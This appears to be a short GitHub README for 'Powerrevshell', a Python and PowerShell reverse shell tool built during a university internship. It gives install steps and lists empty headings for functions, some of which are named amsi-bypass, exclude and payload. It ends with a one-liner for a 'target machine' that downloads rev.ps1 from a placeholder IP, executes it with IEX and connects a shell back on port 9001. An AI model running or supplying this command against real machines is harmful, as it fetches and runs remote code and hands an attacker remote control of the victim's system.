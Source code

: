 # Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell. To simply install it:

1.  Clone this repo
2.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

Powerrevshell.py comes with several function accesibbile via the "menu" option.

### get - put
The 
### smb-get
### down-file
### load
### amsi-bypass
### exclude
### payload
### socks-start
### socks-stop
### socks
### close


## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>/rev.ps1') IEX; Send-Shell -i <IP> -p 9001
```
